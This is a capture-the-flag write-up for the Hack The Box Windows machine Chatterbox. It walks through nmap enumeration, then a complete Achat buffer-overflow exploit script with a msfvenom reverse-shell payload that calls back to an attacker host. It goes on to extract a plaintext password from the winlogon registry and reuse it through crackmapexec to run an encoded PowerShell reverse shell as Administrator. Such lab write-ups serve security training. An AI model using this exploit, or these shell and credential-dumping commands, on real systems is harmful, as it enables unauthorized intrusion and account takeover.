

# Chatterbox

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Medium |
| **Topics** | Buffer Over Flow, BOF, AChat Chat, Password Reuse, Credential Dump from winlogon registry key |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

Stealth Scan:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -v 10.10.10.74 -oN AllPorts
```

Result: 

```bash
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9255/tcp  open  mon
9256/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
```

TCP Full Scan: 

```bash
nmap -p135,139,445,9255,9256 -sCV -Pn -n -v 10.10.10.74 -oN FullScan
```

Result:

```bash
PORT     STATE SERVICE     VERSION
135/tcp  open  msrpc       Microsoft Windows RPC
139/tcp  open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp  open  P���U      Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp open  http        AChat chat system httpd
|_http-title: Site doesn't have a title.
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
|_http-server-header: AChat
| http-methods: 
|_  Supported Methods: GET POST OPTIONS
9256/tcp open  achat       AChat chat system
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-07-14T03:40:03-04:00
|_clock-skew: mean: 6h20m05s, deviation: 2h18m36s, median: 5h00m03s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-07-14T07:40:00
|_  start_date: 2023-07-14T07:30:26
```

SMB Enum Scan: 

```bash
nmap -p 445 --script smb-enum* -Pn -n -oN SMBEnumNmapScan 10.10.10.74
```

Result: 

```bash
PORT    STATE SERVICE
445/tcp open  microsoft-ds
|_smb-enum-services: ERROR: Script execution failed (use -d to debug)

Host script results:
| smb-enum-shares: 
|   note: ERROR: Enumerating shares failed, guessing at common ones (NT_STATUS_ACCESS_DENIED)
|   account_used: <blank>
|   \\10.10.10.74\ADMIN$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.74\C$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.74\IPC$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|_    Anonymous access: READ
```

Note: Machine not vulnerable to EternalBlue

HTTP GET Request: 




HTTP POST Request:


# Initial Access

After the initial enumeration, we found the ports `9255` and `9256` associated with an application identified as `Achat chat` which seems to be a program for chatting. 

Doing a quick search in `searchsploit` we will find 2 exploits for `Achat`, which exploits a BufferOverFlow vulnerability. 

Searchsploit: We will use the Python version, as the other one is for Metasploit. 


Same Exploit but in Exploit-DB: 

[Achat 0.150 beta7 - Remote Buffer Overflow](https://www.exploit-db.com/exploits/36025)

By analyzing the code of the exploit we will that we need to generate our own shellcode and replace it with the existing one from the exploit: 

Exploit Code: 

```python
#!/usr/bin/python
# Author KAhara MAnhara
# Achat 0.150 beta7 - Buffer Overflow
# Tested on Windows 7 32bit

import socket
import sys, time

# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
#Payload size: 512 bytes

buf =  "" ##SHELLCODE GOES HERE

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('192.168.91.130', 9256)

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40"
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
```

To make the exploit work we need to modify the following parts:
1- Shellcode (there is a command already included to generate a shellcode excluding the badchars)

2- Modify the server _address to point to our target. 

1- Shellcode command: We will use the command that is included in the exploit, however, we need to make some adjustments like the payload to be executed. 

Result: We selected the payload `windows/shell_reverse_tcp` as we want to get a reverse shell and not the calculator executed (as previous code). 

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

2- Modify the `server_address` IP to point to our actual victim: 

```python
server_address = ('10.10.10.74', 9256)
```

Done, will all the modifications completed, we just need to launch the exploit:


Success! We got access as Alfred


# Privilege Escalation

After performing additional enumeration, we will see the plain-text password of “Alfred” saved in the registry key `HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon` which we can simply retrieve using the `reg query` command: 

```python
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

Result:

```python
C:\Windows\system32>reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    ShutdownWithoutLogon    REG_SZ    0
    WinStationsDisabled    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    scremoveoption    REG_SZ    0
    ShutdownFlags    REG_DWORD    0x11
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!
```

From the output, we can see the password `Welcome1!`  

We can validate if the password is valid using crackmapexec agains the SMB Service as it is active. 

Crackmapexec:

```bash
crackmapexec smb 10.10.10.74 -u "alfred" -p 'Welcome1!'
```

Result:


Sucess! We can see that password is valid for Alfred. 

Now, let’s try if the password is being reuse for Administratror:

```bash
crackmapexec smb 10.10.10.74 -u "Administrator" -p 'Welcome1!'
```

Result:


Success! Password is being reused for the Administrator account. 

To gain access we can execute the reverse shell directly in the crackmapexec command by using the argument `-x command-to-execute`

```bash
crackmapexec smb 10.10.10.74 -u "Administrator" -p 'Welcome1!' -x 'powershell -e BASE64-CODE' 
```

Result: 


[Owned Chatterbox from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/123)